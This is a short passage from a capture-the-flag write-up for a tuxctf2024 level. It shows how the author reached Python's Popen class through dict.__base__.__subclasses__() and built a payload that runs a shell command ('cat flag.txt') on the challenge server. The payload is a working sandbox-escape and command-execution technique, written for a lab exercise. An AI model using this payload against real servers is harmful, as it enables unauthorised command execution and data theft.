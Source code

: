 ![image](/assets/img/tuxctf2024/level3/level3-3.png)

we get a list of python classes, what we are intrested in is popen , if we can access it we can do anything on the server!!!

we have two ways to determine the popen class number:
1) write a python script which i will not do
2) fuzzing until we get it

on my local machine i got this ```dict.__base__.__subclasses__()[291]```

![image](/assets/img/tuxctf2024/level3/level3-4.png)

The Full Payload:
```bash
dict.__base__.__subclasses__()[291]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()
```
